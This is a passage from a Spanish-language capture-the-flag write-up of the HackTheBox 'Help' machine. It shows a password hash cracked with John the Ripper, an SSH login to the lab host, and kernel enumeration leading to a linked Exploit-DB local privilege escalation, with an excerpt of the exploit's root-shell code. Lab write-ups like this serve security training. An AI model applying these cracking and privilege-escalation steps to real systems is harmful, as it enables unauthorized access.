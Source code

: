 ```bash
❱ john --wordlist=/usr/share/wordlists/rockyou.txt admin.hash 
...
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
Press 'q' or Ctrl-C to abort, almost any other key for status
Welcome1         (?)
1g 0:00:00:00 DONE (2021-07-21 18:34) 4.545g/s 183636p/s 183636c/s 183636C/s abygail..Thomas1
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed
```

También hay coincidencias, si probamos de nuevo contra **SSH** logramos una sesión como el usuario **help**:

```bash
❱ ssh help@10.10.10.121
```

![170bash_helpSH_ssh_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/help/170bash_helpSH_ssh_done.png)

Así que ya podemos olvidarnos de la **reverse Shell** y quedarnos con la nueva **SSH** (:

...

## Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

> Enumerando el sistema cai en varios **rabbit hole** al no buscar primero cosas esenciales :( uno con `exim4`, otro con `graphql`, con `js`, bueno, algunas perdidas e.e

Viendo las características del sistema nos encontramos la versión del kernel:

```bash
help@help:/tmp$ uname -a
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

Si buscamos en la web alguna vulnerabilidad relacionada la versión `4.4.0-116-generic` caemos a este recurso:

* [Linux Kernel \< 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation](https://www.exploit-db.com/exploits/44298).

Una explotación al [kernel](https://www.ediciones-eni.com/open/mediabook.aspx?idR=8a12dad1db3537bb61f40e77e94e0142) que despues de jugar con huecos en la memoria, shellcodes y cositas nos debería devolver una `/bin/bash` siempre y cuando seamos **root** (despues de toodo el proceso que hace):

```c
...
    if (getuid() == 0) {
        printf("spawning root shell\n");
        system("/bin/bash");
        exit(0);
...
```
